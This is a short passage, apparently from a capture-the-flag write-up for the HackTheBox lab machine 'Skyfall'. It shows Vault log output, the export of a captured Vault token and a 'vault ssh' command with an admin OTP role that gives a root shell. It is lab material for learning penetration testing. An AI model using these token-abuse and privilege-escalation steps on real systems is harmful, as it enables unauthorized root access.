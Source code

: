 ```bash
2024/02/07 17:48:21 Checking seal status
2024/02/07 17:48:21 Vault sealed: false
```

Now we have a new vault token. We can update our namespace and the token:

```sh
export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"
```

Finally ssh into root using the other vault role:

```sh
$ vault ssh -role admin_otp_key_role -mode otp root@skyfall.htb
root@skyfall:~$
```
